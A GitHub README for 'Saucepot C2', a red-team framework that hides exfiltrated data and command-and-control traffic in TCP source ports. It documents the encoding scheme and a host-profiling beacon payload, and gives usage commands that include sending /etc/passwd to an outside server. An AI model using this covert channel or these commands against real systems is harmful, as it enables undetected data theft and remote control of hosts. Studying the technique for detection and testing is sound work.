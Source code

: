 # Saucepot C2

Saucepot C2 is a client and server framework that leverages ephemeral TCP source ports for conducting data
exfiltration and command-and-control (C2).  The tool elevates the Port Knocking technique to a new level. Instead of using DstPorts as knock sequences, it employs SrcPorts or ephemeral ports. This approach allows data exfiltration even in highly strict firewall environments where only one outbound port is permitted, such as port 443. Since our payload resides in the SrcPort field, the TCP session state becomes irrelevant. We will exclusively use SYN packets for outbound data transfer to the server. Control and Data channels are segregated using two non-overlapping SrcPort ranges: 29000-33000 for Control and 49000-64360 for Data. The actual data can be reconstructed on the server side using the formula: **data = (SrcPort - 49000) % 256** after receiving the `session-start` sequence.

Currently, two port-knock sequences have been defined: `session-start` (sequences: 32400, 32500, 32600) and `session-end` (sequences: 29900, 29800, 29700). The compressed JSON data structure is sent after the `session-start` sequence, and the `session-end` sequence is sent after transmitting the data payload. Depending on different C2 commands, the structure of the data JSON varies. For example, for beacon check-in:

```
data = {
    'cmd': 'chkin',
    'payload': {
        'Hostname': hostname,
        'Username': os.getlogin(),
        'IP': ip,
        'OS': get_os(),
        'UUID': hostuuid
    }
}
```

Supported commands or features include:

- Check-in / heartbeat
- Directory listing
- Process listing
- File upload

This tool will not work in an environment where a client's source ports are mapped to different values after being NAT'd.

## Usage


### Server
```
usage: saucepot-server.py [-h] [-d <destination_host>] [-p <destination_port>] [-v] [-c]

options:
  -h, --help            show this help message and exit
  -d <destination_host>, --dst <destination_host>
                        Destination host used in packet filter (default: 127.0.0.1)
  -p <destination_port>, --port <destination_port>
                        Destination port used in packet filter (default: 80)
  -v, --verbose         Increase verbosity level (use multiple times for more verbosity)
  -c, --check           Check if the server sees the ephemeral port specified by the client
  ```

### Client
```
usage: saucepot-client.py [-h] [-d <destination_host>] [-p <destination_port>] [-c] [-u] [-f <file>]

options:
  -h, --help            show this help message and exit
  -d <destination_host>, --dst <destination_host>
                        Destination server to connect to (default: 127.0.0.1)
  -p <destination_port>, --port <destination_port>
                        Destination port to connect to (default: 80)
  -c, --check           Check if the server sees the ephemeral port specified by the client
  -u <file>, --upload <file>
                        Upload the file specified directly, without retrieving C2 commands
```

## Example Usage

Here are some examples of how to use Saucepot Server:

### Port checker
Check if specified source ports are kept after being NAT'd.

```shell
# Server
$ sudo python3 saucepot-server.py -d 172.31.48.68 -p 80 --check
Ephemeral Port Checker listening on port 80 ...

[2023-10-02 07:01:46] Challenge duel_1696402906.356157 received from 35.87.191.76:61896
[2023-10-02 07:01:46] Challenge duel_1696402906.367766 received from 35.87.191.76:54438
[2023-10-02 07:01:46] Challenge duel_1696402906.3793 received from 35.87.191.76:53003

# Client
$ python3 saucepot-client.py -d 18.246.19.238 -p 80 --check
Testing ephemeral port with 18.246.19.238:80 ...
Test 1 with ephemeral port 61896: PASS
Test 2 with ephemeral port 54438: PASS
Test 3 with ephemeral port 53003: PASS

Ephemeral port test succeeded. Enjoy Port Knocking 2.0 technique!
```


### File Exfiltration

Client uploads a file to the Server without receiving C2 commands from the Server.

```shell
# Server
$ sudo python3 saucepot-server.py -d 172.31.48.68 -p 80 

# Client
$ python3 saucepot-client.py -d 18.246.19.238 -p 80 --upload /etc/passwd
```

### Command and Control (C2)

Client checks in and starts receiving C2 commands to execute.

```shell
# Server
$ sudo python3 saucepot-server.py -d 172.31.48.68 -p 80 

# Client
$ python3 saucepot-client.py -d 18.246.19.238 -p 80
```

## Future Work

- More flexibility in `ls`, `upload` commands


## License

This project is licensed under the BSD-3-Clause License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

This tool is provided solely for educational use. Using this tool to test hosts without explicit permission of the host or for any malicious purpose is expressly prohibited and may violate applicable laws. The author is not responsible for misuse. The author provides this tool “AS IS” without warranty of any kind, and will not be liable for any results of use.